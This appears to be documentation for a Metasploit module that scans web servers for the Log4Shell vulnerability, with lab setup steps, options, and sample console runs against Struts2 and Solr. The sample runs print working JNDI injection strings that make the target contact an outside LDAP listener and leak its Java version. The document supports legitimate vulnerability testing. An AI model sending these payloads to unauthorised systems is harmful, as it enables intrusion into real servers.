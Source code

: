## Vulnerable Application
This module will scan an HTTP end point for the Log4Shell vulnerability by injecting a format message that will
trigger an LDAP connection to Metasploit. This module is a generic scanner and is only capable of identifying
instances that are vulnerable via one of the pre-determined HTTP request injection points. These points include
HTTP headers and the HTTP request path. URI paths for common, known-vulnerable applications are included
in the `data/exploits/CVE-2021-44228/http_uris.txt` data file.

This module has been successfully tested with:

* Apache Solr
* Apache Struts2
* Spring Boot
* VMWare VCenter

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/log4shell_scanner`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. Do: `run`
6. The target should be identified as vulnerable

### Struts2 Setup

The following docker file can be used to setup a vulnerable Struts2 instance for testing.

```
#
# To build the image:
#   docker build . -t struts2:2.5.28
# To run the container:
#   docker run --name struts2 --rm -p 8080:8080 struts2:2.5.28
#

ARG version=2.5.28
FROM bitnami/tomcat:9.0
USER root
ENV TOMCAT_PASSWORD password

RUN apt-get update && \
	apt-get -y install unzip && \
	apt-get clean && \
	rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

RUN curl https://dlcdn.apache.org/struts/2.5.28/struts-2.5.28-all.zip > struts-all.zip && \
	unzip struts-all.zip && \
	cp /struts-2.5.28/apps/struts2-showcase.war /bitnami/tomcat/webapps/
```

## Options

### HTTP_METHOD
The HTTP method to use.

### HEADERS_FILE
File containing headers to check, one per line. Lines starting with `#` will be treated as comments.

### URIS_FILE
File containing additional URIs to check, one per line. These values will be appended to the `TARGETURI` option. Lines 
starting with `#` will be treated as comments. Lines may also contain the string `${jndi:uri}` which will be used as the
injection point. This enables query parameters to be included in the request which are required for certain
applications.

### LDAP_TIMEOUT
Time in seconds to wait to receive LDAP connections.

## Scenarios

### Struts2

```
msf6 > use auxiliary/scanner/http/log4shell_scanner 
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set TARGETURI /struts2-showcase/
TARGETURI => /struts2-showcase/
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[*] Started service listener on 192.168.159.128:389 
[+] Log4Shell found via /struts2-showcase/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.159.128%3a389/r7yol50kgg7be/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/log4shell_scanner) > 

```

### Apache Solr

Apache Solr is trivially exploitable by a remote and unauthenticated attacker when in its default configuration:

```
msf6 > use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > run http://10.10.235.209:8983/ srvhost=10.9.4.245

[*] Started service listener on 10.9.4.245:389
[+] 10.10.235.209:8983    - Log4Shell found via /solr/admin/cores?action=CREATE&wt=json&name=%24%7bjndi%3aldap%3a/10.9.4.245%3a389/vslscuy7m6q9pgfc18h/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Auxiliary module execution completed
```
